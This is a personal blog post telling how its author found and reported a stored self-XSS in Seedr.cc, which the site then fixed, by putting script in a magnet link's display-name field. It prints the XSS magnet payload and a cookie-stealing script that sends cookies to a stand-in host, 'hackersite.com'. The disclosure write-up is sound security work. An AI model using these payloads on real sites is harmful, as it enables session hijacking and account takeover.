 ```yaml
---
title: Discovering a Stored XSS Vulnerability in Seedr.cc
description: This blog details my journey of uncovering a stored XSS vulnerability in Seedr.cc
author: hemantapkh
date: 2024-09-01 02:41:18 +0000
categories: [Cybersecurity]
tags: [security, XSS, hacking]
pin: false
math: false
mermaid: false
image:
  path: https://assets.hemantapkh.com/blog/seedr-xss/thumbnail.webp
  alt: Image from blog.detectify.com
---
```


## What is XSS?

Cross-Site Scripting (XSS) is a type of vulnerability found in web applications where an attacker can inject malicious scripts into content that is then delivered to users. These scripts can execute in the victim's browser, leading to various malicious activities such as stealing cookies, session hijacking, or defacing websites.

### Types of XSS Vulnerabilities

- **Reflected XSS**:
  Occurs when user-supplied data is immediately reflected back in the web application's response, such as in error messages or search results, without being properly sanitized. The malicious script is executed when the crafted URL is clicked and processed, but the data is not stored on the server.

- **Stored XSS**:
  Happens when user input is stored on the server (e.g., in a database, comment field) and later displayed to users without proper sanitization. The malicious script is executed when the stored data is retrieved and rendered.

- **DOM-Based XSS**:
  Involves the execution of a malicious script due to changes made to the client-side DOM environment. Unlike other types, the payload never reaches the server. It is similar to reflected XSS because no information is stored during the attack; both rely on tricking a victim into interacting with a malicious URL.


In this post, we'll focus on my discovery of a stored Self-XSS vulnerability in [Seedr.cc](https://seedr.cc), one of the most popular services that allow users to download torrents directly to the cloud.

## Discovering XSS in Seedr

**December 1, 2020** I was exploring the site. Out of curiosity, I attempted to rename one of my files using characters such as `<`, `>`, `%`, `&`, and `^`, which are typically not allowed in filenames on most sites. The site threw an **"Illegal characters used in filename"** error.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr-error-alert.png)

This got me thinking: 
what if the torrent file itself has these forbidden characters? So, I decided to test this out by creating a magnet link with such characters. 

The basic structure of a torrent [magnet URI](https://en.wikipedia.org/wiki/Magnet_URI_scheme) is as follows:

```text
magnet:?xt=urn:btih:<info_hash>&dn=<name>&tr=<tracker_url>
```

In this URL schema, `dn` stands for display name. First, I experimented with how their system handled illegal characters passed through the magnet link. Surprisingly, they were not filtered or encoded. With this discovery, I decided to take it a step further and craft an XSS vector within the magnet link by modifying the `dn` parameter while keeping the hash of a random torrent.

```text
magnet:?xt=urn:btih:44E6FC672F9476589951726B4693F6CEB2B4759D&dn=<svg onload=alert(1)>
```

> You can find an excellent XSS cheat sheet here: [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
{: .prompt-tip }

After adding this magnet link on my Seedr account, my XSS vector was permanently stored. Every time I refresh my home page, an alert box displaying "1" would pop up.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr.jpeg)

## Impact

This vulnerability could have severe implications, including account takeovers via malicious JavaScript injections. While the XSS vulnerability I discovered is a type of Self-XSS, meaning it executes only in the context of the user who submits the payload, it can still be exploited to target other users.

Imagine someone injecting the similar script into a magnet link and sharing it with unsuspecting victims:

```html
<script>
  var userCookie = document.cookie;
  var img = new Image();
  img.src = 'https://hackersite.com/store?cookie=' + encodeURIComponent(userCookie);
</script>
```

> You can find an excellent XSS prevention cheat sheet here: [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
{: .prompt-tip }


## Reporting the Vulnerability

**December 2** I reported this issue to the Seedr team, and they swiftly implemented a fix.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr-reply-email.png)

Shortly afterward, I found another vulnerability on the same platform, which allowed me to add unlimited torrents beyond my storage limit. This next discovery earned me my first bug bounty reward, which I will discuss in my next blog. Stay tuned! 🚀
